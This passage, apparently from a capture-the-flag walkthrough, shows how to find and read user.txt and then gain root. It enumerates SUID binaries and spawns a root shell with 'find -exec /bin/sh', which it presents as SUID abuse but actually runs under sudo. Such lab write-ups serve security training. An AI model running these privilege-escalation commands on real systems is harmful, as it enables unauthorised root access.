 And find user.txt

```bash
find / -name "user.txt" 2>/dev/null
```

Results:

```
/var/www/html/user.txt
```

To echo it, you will need to give it read permissions 

```bash
chmod +r /var/www/html/user.txt
cat /var/www/html/user.txt
```


## 12. Get root.txt flag.

Run:

```bash
find / -perm /4000 2>/dev/null
```

Having a look at the results, you can see listed the command find. If we run:

```bash
ls -la /bin/find
```

We can see the suid bit enabled:

```
-rwsr-xr-x 1 root root 286184 Jul 14  2021 /bin/find
```

Knowing this, we can escalate privileges. [This web provides you with some resources to exploit suid bit](https://gtfobins.github.io/gtfobins/find/). Run:

```bash
sudo find . -exec /bin/sh \; -quit
whoami
```

Results:

```
root
```

Now we can echo root.txt

```bash
cat /root/root.txt
```

